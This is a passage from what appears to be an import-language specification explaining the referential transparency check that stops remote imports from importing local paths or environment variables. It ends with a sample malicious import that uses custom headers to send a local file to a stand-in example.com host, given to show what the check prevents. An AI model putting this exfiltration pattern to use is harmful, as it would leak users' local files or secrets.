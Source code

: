 A `missing` import is also referentially transparent because it always fails
regardless of where you import `missing` from.

All other imports are "referentially opaque" because their contents depend
on which machine that you import them from.

Referential transparency is checked using a judgment of the form:

    referentiallySane(parent, child)

... where

* `parent` (an input) is the canonicalized path of the parent import
* `child` (an input) is the canonicalized path of the child import

There is no output: either the judgment matches or it does not.

The rules for the referential transparency check ensure that a referentially
transparent parent can never import a referentially opaque child.  In practice
this means that remote imports can only import other remote imports (after
both imports have been canonicalized) or `missing` imports:


    ───────────────────────────────────────────────────────────────────────────────────────────
    referentiallySane(https://authority₀ directory₀ file₀, https://authority₁ directory₁ file₁)


    ───────────────────────────────────────────────────────────────
    referentiallySane(https://authority₀ directory₀ file₀, missing)


... whereas non-remote imports can import anything:


    ────────────────────────────────────
    referentiallySane(path file, import)


    ──────────────────────────────────────
    referentiallySane(. path file, import)


    ───────────────────────────────────────
    referentiallySane(.. path file, import)


    ──────────────────────────────────────
    referentiallySane(~ path file, import)


    ────────────────────────────────
    referentiallySane(env:x, import)


This is a security check because it prevents remote imports from exfiltrating
local paths and environment variables using the language's support for
custom headers.  For example, this check prevents the following malicious
import:


    {- This file is hosted at `https://example.com/bad` and attempts to steal a
       sensitive file from the user's system using the language's support for
       custom headers
    -}
    https://example.com/recordHeaders using ./headers
